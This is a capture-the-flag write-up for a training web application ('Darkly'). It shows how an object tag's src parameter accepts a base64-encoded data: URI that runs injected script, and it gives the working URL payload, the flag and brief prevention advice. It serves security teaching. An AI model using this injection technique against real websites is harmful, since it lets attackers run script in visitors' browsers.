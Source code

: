 # XSS - Object

See [XSS_Recover_Password](https://github.com/anyashuka/Darkly/tree/master/XSS_Recover_Password) for more XSS description, use and prevention.


## Exploit

Go to page:

{VM_IP}/index.php?page=media&src=nsa

inspect elements shows src argument inserted directly into data field of object tag: <br>
<object data="{VM_IP}/images/nsa_prism.jpg"></object>

Injecting html normally won't work because quotation marks are handled properly.
however, you can inject serialized html (serializing converts an object into a stream of bytes).

```echo '<script>alert("Oh hi!")</script>' | base64```

This produces a serialized version of the script to be run: <br>
PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

Replace the original image source with serialized script:

{VM_IP}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiT2ggaGkhIik8L3NjcmlwdD4K

And the flag appears! 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D


## Use

User can execute malicious code on client machine.


## Prevention

Validate input before use.
All elements to be displayed should be retrieved on the server side only.
